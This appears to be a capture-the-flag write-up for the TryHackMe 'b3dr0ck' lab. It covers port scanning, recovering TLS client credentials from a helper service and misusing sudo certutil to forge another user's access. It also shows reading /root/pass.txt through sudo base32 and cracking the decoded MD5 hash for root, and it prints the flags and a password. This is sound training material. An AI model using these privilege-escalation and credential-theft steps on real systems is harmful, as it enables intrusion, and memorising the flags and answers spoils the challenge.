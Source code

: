 

<hr>
<h2> Question 1: flag 1</h2>
I already got some hints from the details in the tryhackme page<br>

```
He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
```

So lets start, nmap scan as usual recon:
```
$ nmap 10.10.246.196
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 15:17 EDT
Nmap scan report for 10.10.246.196
Host is up (0.047s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9009/tcp open  pichat

Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
```

Trying Port 9009 in broweser, it returned 

```Unsupported or unrecognized SSL message```

<br>

So as i know if i try to load up the web server on port 80, <br>
it will redirect me to port 4040 <br>
On the website Barney doesn't seems to know what he is doing, and he also mentions
that: **"Looks like it started something else, but I'm not sure how to turn it off!
        He said it was from the toilet and OVER 9000!"**<br>


So there are more ports open than what i currently have<br>
Running nmap again reveals another port that i didnt knew about, **54321**
```
$ nmap 10.10.246.196 -p-65535
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 15:21 EDT
Nmap scan report for 10.10.246.196
Host is up (0.061s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
4040/tcp  open  yo-main
9009/tcp  open  pichat
54321/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 33.12 seconds

```
Trying port **54321** returned ```Error: 'undefined' is not authorized for access.```
<br>
<br>
After some messing around, turns out i can connect to port 9009 via netcat:
```
$ ncat 10.10.246.196 9009 


 __          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               


What are you looking for? 
```
Im looking for flags and passwords!
```
Sorry, unrecognized request: 'password'
You use this service to recover your client certificate and private key
```
The output message says i can recover certificate and a private key
```
What are you looking for? certificate
Sounds like you forgot your certificate. Let's find it for you...
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----


What are you looking for? key
Sounds like you forgot your private key. Let's find it for you...
-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----

```
Okay, i can use this key and certificate via openssl like this(guessing port 54321 because the 9009 didn't worked):
```
openssl s_client -connect 10.10.246.196:54321 -key id_rsa -cert certificate 
```
And after connection, i was able to get Barney's password:
```
Welcome: 'Barney Rubble' is authorized.
b3dr0ck> 
Unrecognized command: ''
This service is for login and password hints
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
```
I have no other choice than trying this password via ssh
```
$ ssh barney@10.10.246.196
[...]
barney@10.10.246.196's password: 
barney@ip-10-10-246-196:~$ 
```
Good, now i have the first flag!
```
barney@ip-10-10-246-196:~$ cat barney.txt
THM{f05780f08f0eb1de65023069d0e4c90c}
```
<hr>
<h2> Question 2: Fred's password</h2>
Following the tasks, i have to get access to freds account, and from fred's account, to root!

Executing sudo -l command, returned that i can run certutil as root without password:
```
barney@ip-10-10-246-196:~$ sudo -l
[sudo] password for barney: 
Matching Defaults entries for barney on ip-10-10-246-196:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on ip-10-10-246-196:
    (ALL : ALL) /usr/bin/certutil
```
Checking the tool usage, i can generate new keypair for users
```
barney@ip-10-10-246-196:~$ certutil
Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]
```
This gave me an idea to probably do the same as with Barney's account, creating a TLS connection using the two keys?
```
barney@ip-10-10-246-196:~$ sudo certutil fred fred
Generating credentials for user: fred (fred)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----
```
Saving the output to files and trying the connection:
```
$ openssl s_client -connect 10.10.246.196:54321 -cert certificate -key id_rsa
Connecting to 10.10.246.196
CONNECTED(00000003)
[...]
read R BLOCK
Welcome: 'fred' is authorized.
```
And typing help again, it will show freds account password:
```
b3dr0ck> help
Password hint: **YabbaDabbaD0000!** (user = 'fred')
```
I got Fred's account password, and also the answer to question 2!
```
$ ssh fred@10.10.246.196
fred@10.10.246.196's password: 
fred@ip-10-10-246-196:~$ 
```
<hr>
<h2> Question 3: flag 2</h2>

And now i can easly get the second flag too!
```
fred@ip-10-10-246-196:~$ cat fred.txt
THM{08da34e619da839b154521da7323559d}
```
<hr>
<h2> Question 4: flag 3(root)</h2>
Trying again some basic PE mehtods, executing sudo -l command returns that i can run base64 and base32 as root for a specific file

```
fred@ip-10-10-246-196:~$ sudo -l
Matching Defaults entries for fred on ip-10-10-246-196:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on ip-10-10-246-196:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```
Both command will read the file and encodes it as base64/32<br>
Probably it has the password encoded as base64 or base32<br>
```
fred@ip-10-10-246-196:~$ sudo /usr/bin/base32 /root/pass.txt
JRDEWRKDGUZFUS2SINMFGV2LLBEVUVSVGQZUWSSHJZGVQVKSJJJUYRSXKZJTKMSPKBFECWCVKRGE
4SSKKZKTEUSDK5HEER2YKVJFITCKLJFUMU2TLFFQU===
```
Trying with CyberChef, i decoded from base32 to text, but the output looks like its still encoded
<img src = "cyberchef1.png">
<br>
Its probably double, or triple encoded by base64/32
<br><br>
After trying for a while, it turns out I can decode it two times with base32 and once with base64, this finally gave me an MD5 hash<br>
```Base32 -> Base32 -> Base64 -> MD5```
<img src = "cyberchef2.png">
<br><br>
Lets try cracking the MD5 hash with CrackStation!
<img src = "crackstation.png">
<br>
Success! Lets hope this is the root password

```
fred@ip-10-10-246-196:~$ su - root
Password: 
root@ip-10-10-246-196:~# 
```
Victory! Lets read the root.txt!
```
root@ip-10-10-246-196:~# cat /root/root.txt
THM{de4043c009214b56279982bf10a661b7}
```
